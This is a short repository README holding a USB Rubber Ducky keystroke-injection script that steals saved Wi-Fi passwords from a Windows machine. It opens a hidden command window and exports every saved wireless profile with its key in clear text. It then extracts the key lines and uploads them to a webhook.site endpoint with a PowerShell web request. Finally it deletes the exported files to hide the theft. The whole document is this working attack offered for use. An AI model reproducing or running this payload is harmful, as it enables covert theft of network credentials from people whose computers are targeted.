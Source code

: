 # StealWiFiDuckyScript
USB Rubber Ducky Script for capture saved wifi passwords
<pre>
<code>
REM Ducky Script for Steal Saved WiFi Password
REM Author - TechChip
REM https://github.com/techchipnet
REM https://youtube.com/techchipnet
DELAY 500
GUI r
DELAY 1000
STRING cmd /k mode con: cols=25 lines=1
DELAY 100
ENTER
DELAY 1000
STRING cd %temp%
ENTER
DELAY 500
STRING netsh wlan export profile key=clear
ENTER
DELAY 500
STRING powershell Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' > WiFi-Key
ENTER
DELAY 1000
DELAY 500
REM next command will post wifi password on webhook.site
REM watch demo on techchip youtube channel
STRING powershell Invoke-WebRequest -Uri https://webhook.site/<paste webhook unique id here> -Method POST -InFile WiFi-Key
ENTER
STRING del Wi* /s/f/q
ENTER
DELAY 500
STRING exit
ENTER
</code>
</pre>
